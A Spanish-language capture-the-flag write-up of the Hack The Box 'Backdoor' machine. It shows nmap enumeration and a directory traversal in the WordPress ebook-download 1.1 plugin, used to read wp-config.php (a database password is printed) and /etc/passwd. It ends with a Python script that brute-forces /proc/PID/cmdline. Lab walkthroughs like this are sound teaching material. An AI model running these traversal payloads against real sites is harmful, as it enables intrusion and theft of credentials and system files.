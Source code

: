 #by d4l1


<p align= "center">
<img src=https://7rocky.github.io/images/HTB/Backdoor/Backdoor.webp>
</p>


# PRESENTACIÓN
Muy buenas hoy haremos la máquina Backdoor, una máquina linux easy, en la que encontraremos un Wordpress con un plugin instalado con una vulnerabilidad de directory transversal.

# ENUMERACIÓN

Como siempre haremos los pasos mas simples e importantes.

```
ping -c 1 ip

python3 escanerSO.py ip

```
Conociendo esto ya podemos pasar a hacer un escaner de la red

```
sudo nmap -sCV -T4 --min-rate 5000 ip
```
Con este escaneo encontramos los puertos típicos abiertos "22" ssh - "80" - http y "1337" 

# ENUMERACIÓN WEB

Si inspeccionamor por la web, nos damos cuenta rapidamente que es un blog de Wordpress, podemos utilizar "Wapalanyzer" para ver los plugins y podemos manualmente irnos a la ruta de los plugins. 
```
/wp-content/plugins .
```
Si no vamos ahi encontramos como un pequeño directorio, inspeccionemos.

Dentro del directorio ebook y el fichero readmne.txt nos revela un plugin con la versión 1.1 interesante.

# ENTRADA

Una vez que tenemos la versión podemos buscar exploits en google "ebook-download 1.1 wordpress plugin exploit"

Vemos que hay un exploit con "directory traversal" 

Con un ejemplo de uso :
```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wpconfig.php
```
Deberemos meternos a la URL anteriormente mencionada, y especificar el target "ebookdownloadurl" 

```
backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
Si ponemos dicha ruta, se nos descarga el archibo "wp-config.php" bastante importante.

Vamos a probar a abrir BurpSuite y posteriomente coger la request si lo pasamos por el repeter conseguimos esto.

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
Ahora podemos hacer lo mismo pero con diferentes rutas, por ejemplo /etc/passwd

```
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd HTTP/1.1
```
Aquí nos encontramos con el usuario "user"

# PUERTO 1337

Ahora nos vamos al puerto anteirormente que hemos visto abierto, nos intentaremos conectar con "telnet" o "netcat" 

Algo importante que encontramos es "/proc/{PID}/cmdline" (es un proceso que esta funcionando en el puerto 1337)

Lo que vamos a probar, es desde la misma request del BurpSuite apuntar a dicho proceso 

El archivo nos devuelve un proceso en PID

## FUERZA BRUTA PID 

Ahora utilizaremos python para hacer un pequeño script para que en bucle mande request a la máquina victima, para ver su respuesta mas comprensible, haremos por fuerza bruta de rango 1-1000 y en caso que no nos devuelva nada aumente su rango.
```
import requests
for i in range(1, 1000):
 r = requests.get("http://backdoor.htb/wp-content/plugins/ebookdownload/filedownload.php?ebookdownloadurl=/proc/"+str(i)+"/cmdline")
 out = (r.text.replace('/proc/'+str(i)+'/cmdline','').replace('<script>window.close()
</script>','').replace('\00',' '))
 if len(out)>1:
 print("PID"+str(i)+" : "+out)
```

